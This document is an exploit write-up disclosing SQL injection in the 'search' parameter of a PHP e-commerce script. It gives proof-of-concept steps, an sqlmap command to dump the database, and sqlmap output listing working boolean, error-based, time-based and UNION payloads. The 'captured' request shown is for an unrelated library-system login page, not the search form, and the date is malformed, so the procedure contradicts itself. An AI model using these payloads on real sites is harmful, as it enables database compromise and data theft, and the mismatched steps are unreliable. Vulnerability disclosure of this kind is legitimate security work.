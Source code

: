 # E-Commerce Website - SQL Injection 1
+ **Exploit Title:** E-Commerce Website - SQL Injection 1
+ **Date:** 2023-24-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References:

## Description:
E-Commerce Website 1.0 allows SQL Injection via parameter 'search' in "/Electricks/Electricks-shop/index_search.php".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Search Product textbox: "http://localhost/Electricks/Electricks-shop/index_search.php"
+ Fill Enter product name and search.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /libsystem/admin/login.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 313
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/libsystem/admin/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

username=admin&login=&password=Pass
```

+ Use sqlmap to exploit. In sqlmap, use 'search' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p search --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: search (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: search=test' OR NOT 4831=4831-- wglp

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: search=test' AND (SELECT 3794 FROM(SELECT COUNT(*),CONCAT(0x717a707a71,(SELECT (ELT(3794=3794,1))),0x7162706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- tgSG

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=test' AND (SELECT 9664 FROM (SELECT(SLEEP(5)))rvAF)-- dHfN

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: search=test' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a707a71,0x6f6e55424c5968486469704d474a566a75696b44596473587874685a79756d7378646a7942777564,0x7162706b71),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[19:47:41] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[19:47:41] [INFO] fetching current database
current database: 'electricks'
```

+ current database: `electricks`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/e2d64c21-ad38-4af7-977c-d140d0642a28)
